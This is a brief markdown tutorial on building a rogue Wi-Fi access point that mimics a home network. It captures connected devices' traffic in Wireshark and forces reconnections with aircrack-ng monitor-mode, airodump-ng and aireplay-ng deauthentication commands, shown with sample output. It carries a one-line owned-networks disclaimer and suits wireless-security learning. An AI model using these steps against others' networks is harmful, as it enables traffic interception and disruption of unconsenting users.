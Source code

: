 # Creating a rogue Wi-Fi access point

> Disclaimer: I think it goes without saying that you should only be doing this sort of caper on networks you own. But if nothing else it should disuade you from using public Wi-Fi networks.

Download the latest [Kali Linux ISO](https://www.kali.org/downloads/) and create a [bootable USB drive](https://docs.kali.org/downloading/kali-linux-live-usb-install). Restart your computer and boot into Kali via the BIOS.

You need two network connections so tether your phone with a cable leaving the built-in Wi-Fi for your rogue access point.

_Settings > Wi-Fi > options > Turn On Wi-Fi Hotspot..._

Run `nmtui` and edit the hotspot credentials to match your home network.

## Capturing packets
Capturing packets really is as simple as running Wireshark on the Wi-Fi network interface. Try adding a Wireshark filter and visit https://turpin.dev on your compromised device just so you have some known text to search for.

```
frame contains "turpin"
```

And now we wait for a new device to connect... actually, even established connections re-negotiated periodically but we can make it happen on demand.

## Forcing a reconnection
We _could_ wait but we can also kick out existing sessions by sending a malformed message to the genuine access point.

You'll need two Wi-Fi connections for this: one for the hotspot, one to send malformed packets. So procure a USB-to-Wi-Fi adapter.

List your network interfaces.

ip a

If the built-in Wi-Fi is the hotspot, let's insert the USB Wi-Fi adapter and put it into monitor mode.

airmon-ng start wlan1

Check your network interfaces again and you'll see it has a "mon" suffix. Now see what devices are out there.

airodump-ng wlan1mon --manufacturer

`airodump-ng` lists access points and clients.

```
CH 2 ][ Elapsed: 30 s ][ 2019-11-02 14:06

BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

A0:BD:CD:8F:D0:2A -66 39 225 100 11 130 WPA2 CCMP PSK pleasedto

BSSID STATION PWR Rate Lost Frames Probe

(not associated) 5C:AA:FD:25:40:DD -64 0 - 0 28 4 Sonos_fLNwUn2QJ
```

Deauthenticate the target.

aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 wlan1

See the [aircrack documentation](https://www.aircrack-ng.org/doku.php?id=deauthentication).

## Tidying up after yourself
When you're done take the network interface out of monitor mode and restart your network. But you can just turn off if you don't care. Should the Kali screensaver kick in the default root password is "toor" (root backwards).

airmon-ng stop wlan1mon
systemctl restart network-manager.service
